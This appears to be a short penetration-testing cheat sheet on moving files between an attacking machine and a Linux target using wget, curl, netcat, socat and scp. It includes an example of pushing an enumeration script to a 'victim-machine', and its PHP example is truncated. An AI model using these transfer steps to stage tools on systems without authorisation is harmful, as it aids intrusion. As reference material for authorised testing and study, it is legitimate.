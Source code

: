 ## Linux File Transfer

- Wget

wget 192.168.1.102:9999/file.txt

- Curl

curl -O http://192.168.0.101/file.txt

- Netcat

On attacking machine:
nc -lvp 4444 < file

On target machine:
nc 192.168.1.102 4444 > file

So on the victim-machine we run nc like this:
nc -lvp 3333 > enum.sh

And on the attacking machine we send the file like this:
nc 192.168.1.103 < enum.sh

I have sometimes received this error:
This is nc from the netcat-openbsd package. An alternative nc is available

I have just run this command instead:
nc -l 1234 > file.sh

- Socat
Server receiving file:
server$ socat -u TCP-LISTEN:9876,reuseaddr OPEN:out.txt,creat && cat out.txt
client$ socat -u FILE:test.txt TCP:127.0.0.1:9876
Server sending file:
server$ socat -u FILE:test.dat TCP-LISTEN:9876,reuseaddr
client$ socat -u TCP:127.0.0.1:9876 OPEN:out.dat,creat

With php
echo "" > down2.php

- SCP
Now we can copy files to a machine using scp
# Copy a file:
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext
# Copy a directory:
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
